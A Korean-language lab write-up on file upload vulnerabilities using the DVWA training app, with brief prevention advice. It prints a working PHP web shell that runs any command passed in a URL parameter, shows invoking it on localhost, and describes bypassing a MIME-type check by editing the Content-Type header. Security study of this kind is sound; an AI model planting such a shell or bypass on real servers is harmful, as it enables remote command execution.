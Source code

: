 # File Upload Vulnerability
파일업로드 취약점은 서버에 마음대로 커맨드를 실행하도록 할 수 있는 파일을 업로드하고, 그 파일에 접근하여 서버에서 마음대로 커맨드를 실행할 수 있도록 하는 취약점이다.  

이 공격을 막기 위해서는 파일이 업로드 되는곳을 알려주거나, 접근할 수 있는 권한을 주어서는 안되며, 파일이 업로드 될 때 받을 파일이 맞는지 확인하는 과정이 필요하다.  

이 문제에서 문제를 일으킬 파일은 php파일로 서버에서 접근한다면 상시 사용할 수 있다.  
다음은 php파일의 소스이다.  

>\<?php  
	\$cmd = \$_GET['cmd'];  
	if (isset(\$cmd)) {  
		system(\$cmd);  
	}  
\?>  


DVWA에 있는 예제로 설명을 진행한다.    

>[low]  

low의 파일업로드 소스는 전혀 검사하는것이 아무것도 존재하지 않는다.
따라서 파일을 업로드하여 그 파일에 접근만 한다면 해결할 수 있다.  
![fu_low](image/fu_low.png)  
심지어 파일의 주소까지 알려주고있다.  
http://localhost/dvwa/hackable/uploads/test.php
위의 주소에 내가 명령어로 넣고싶은것을 인자로 전달해주기만 하면된다.  
ex)http://localhost/dvwa/hackable/uploads/test.php?cmd=pwd

>[medium]

이 문제의 소스에서는 파일의 종류를 검사해주고 있다.  
![fu_mid_source](image/fu_medium_source.png)  

이 파일의 종류를 검사하는 것은 mime-type을 이용한다.  
mime-type은 서버와 클라이언트 사이에서 파일의 종류를 알려주는 하나의 방법이다.  
파일을 서버에 전송할 때의 패킷을 intercept하면 다음을 볼 수 있다.  
![packet](image/fu_mid_packet.png)  
이 사진에서 업로드한 파일 소스 위를 보면 content-type이 있는데 이것이 mime-type이다 이것을 수정한다면 파일의 종류를 속여서 업로드가 가능하다.  
이 값을 소스에서 원하는 값인 image/jpeg 혹은 image/png로 변경하여 업로드 해보자.  
